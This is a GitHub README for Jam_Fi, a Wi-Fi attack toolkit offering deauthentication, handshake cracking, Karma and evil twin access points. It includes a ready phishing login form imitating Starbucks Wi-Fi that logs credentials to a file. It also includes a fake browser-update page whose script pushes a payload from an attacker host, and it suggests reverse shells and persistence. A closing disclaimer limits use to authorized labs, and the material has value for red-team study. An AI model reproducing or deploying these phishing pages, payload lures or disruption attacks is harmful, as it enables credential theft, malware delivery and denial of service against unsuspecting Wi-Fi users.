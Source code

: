# 💜 Jam_Fi – Wi-Fi Chaos Tool  
by [@ekomsSavior](https://github.com/ekomsSavior)

> Built with love to teach, explore, and cause a little friendly Wi-Fi mischief. 💅

---

## ✨ What is Jam_Fi?

Jam_Fi is a powerful and playful Wi-Fi chaos and red teaming toolkit written in Python for Kali Linux. 
It's designed for educational and cybersecurity research purposes, helping you learn how attackers exploit wireless networks—and how to defend against them.

Jam_Fi includes tools for:

- Evil Twin Access Points ☠️  
- Deauthentication Attacks 💥  
- Handshake Capture & Cracking 🔓  
- Probe Request & Junk Flooding 📡  
- Karma Attacks 🧲  
- MITM HID Injection 💻  
- Fake Login Phishing with Auto-Logging 📄  
- and more...

Whether you're a beginner or advanced user, Jam_Fi gives you a hands-on way to experiment and learn in a lab setting.

---

## 🛠️ Installation

1. Clone the repo:

git clone https://github.com/ekomsSavior/JamFi
cd JamFi
Make sure you have the following installed:

sudo apt update

sudo apt install -y aircrack-ng hostapd dnsmasq dnsspoof python3-scapy

Run the tool:

sudo python3 jam_fi.py

*To Update periodically:
run from the Jam_fi directory on your machine:

git pull

## When Jam_fi is running you'll see:

🔹 1  Scan Clients & APs 🔍
     → Scans for nearby Wi-Fi networks (Access Points) and the clients connected to them using Scapy.

🔹 2  Deauth One Client 💥
     → Sends a deauthentication attack to disconnect a selected client from their Wi-Fi (uses scapy).

🔹 3  Deauth ALL Clients + Capture 🔓
     → Disconnects all clients from known APs and tries to capture WPA/WPA2 handshake packets.

🔹 4  Crack Captured Handshakes 🔓
     → Tries to crack saved WPA handshakes using Aircrack-ng or Hashcat if installed.

🔹 5  Probe Request Spam 📡
     → Broadcasts fake SSIDs as if clients are looking for networks, to create wireless noise.

🔹 6  Junk Packet Flood 💣
     → Sends randomized packets with fake MAC addresses to flood the airwaves and confuse devices.

🔹 7  Karma Responder 🧲
     → Responds to any probe request with a beacon frame, tricking devices into connecting.

🔹 8  Chaos Mode 💃
     → Combo mode! Runs Karma Responder, Junk Flood, and Probe Spam all at once.

🔹 9  View Loot 📁
     → Displays any saved handshakes, captured credentials, or other loot collected in the `loot/` folder.

🔹 🔟 Evil AP 👿
     → Launches a fully connectable Evil Twin Access Point with DNS redirection and phishing login page.

🔹 11 MITM HID Injection 🧠
     → Simulates a man-in-the-middle attack by redirecting users to a fake “driver install” page with mock keystroke injection.

🔹 0  Quit ❌
     → Exits JamFi and returns to your terminal.

## ✨✨✨ Tips & Tricks for Power Users ✨✨✨
Jam_Fi was made to be playful, powerful, and personal. Here's how you can take your JamFi chaos to the next level:

⚡ Performance Tips

💻 Optimize Wireless Interface:

Use an ALFA AWUS1900 or AWUS036ACH for better packet injection and monitoring.

Disable power-saving on your adapter:

sudo iw dev wlan0 set power_save off

Switch channels manually with:

iwconfig wlan0 channel 6
(Replace with the target AP’s channel for better deauth or handshake captures.)

📡 Make Scans Faster:

Edit the scan delay inside jam_fi.py (look for time.sleep() under channel_hopper()).

Lowering sleep delay to 0.2 or less can speed things up, but may increase CPU usage.

👿 Evil AP Customization

🎨 Customize the Captive Portal:

Edit this file to make your own fake login page:

loot/login.html

Wanna make it look like Starbucks? Just change the login.html body:

<h2>Welcome to Starbucks Free Wi-Fi</h2>
<p>Please sign in to continue</p>
<form method="POST" action="/login">
  <input type="text" name="username" placeholder="Email"><br>
  <input type="password" name="password" placeholder="Wi-Fi Password"><br>
  <input type="submit" value="Connect">
</form>

You can view your collected credentials in:

loot/creds.txt

🔐 Advanced Hack: Fake Browser Update + Payload (Optional)

Jam_Fi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required. Once a device connects to your Evil AP, you can redirect them

to a custom update page that looks legit and even downloads a file of your choosing. You control it via loot/injection.html. Here's a simple example:

<!-- loot/injection.html -->
<h2>🔒 Browser Update Required</h2>
<p>To continue browsing, please install the latest security patch.</p>
<button onclick="downloadUpdate()">Update Now</button>
<script>
function downloadUpdate() {
  const a = document.createElement('a');
  a.href = 'http://10.0.0.1/fake_update.exe';  // Customize your payload here
  a.download = 'update.exe';
  document.body.appendChild(a);
  a.click();
}
</script>

Just place your payload or tool (like netcat, reverse_shell.exe, etc.) in the loot/ folder as fake_update.exe.

You now have a simulated Remote Code Execution (RCE) opportunity: once the user runs your downloaded file, you can initiate reverse shells or persistence — depending on your lab setup.

⚠️ Jam_Fi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine. 

## 💼 The loot/ Folder

This folder contains all the important config and phishing assets used by Evil AP and MITM modes:

File	Purpose

index.html	The default captive portal or phishing homepage

login.html	Fake login page that logs entered usernames & passwords

phish_server.py	Hosts the phishing server & saves form data to creds.txt

creds.txt	Stores submitted login form credentials (auto-created)

hostapd.conf	Used to configure and start the Evil Access Point

dnsmasq.conf	Handles DHCP and DNS for the Evil AP

dnsspoof_hosts	Used by dnsspoof to redirect all DNS to the attacker

hotspot-detect.html	Helps trigger captive portal on iOS/macOS devices

injection.html	Used for MITM HID payload simulation (fake keystroke browser page)

All of these files are auto-generated if missing, so don’t stress if you delete them!

## 🚨 Disclaimer

This tool is for educational and authorized research only.

By using Jam_Fi, you agree that you are responsible for your own actions.

Do not use this tool on networks or devices you don’t have explicit permission to test.

The goal is to educate and empower—not to harm. Use wisely 💜

## 💜 Built With Love

Jam_Fi is a passion project created by @ekomsSavior xoxoxoox sending hugs to all the homies always ✨✨✨

It’s free, open-source, and meant to make learning cybersecurity hands-on, fun, and inclusive for all.

If you like Jam_Fi, give it a ⭐️ on GitHub and share it with your h4x0r and cybersecurity friends!

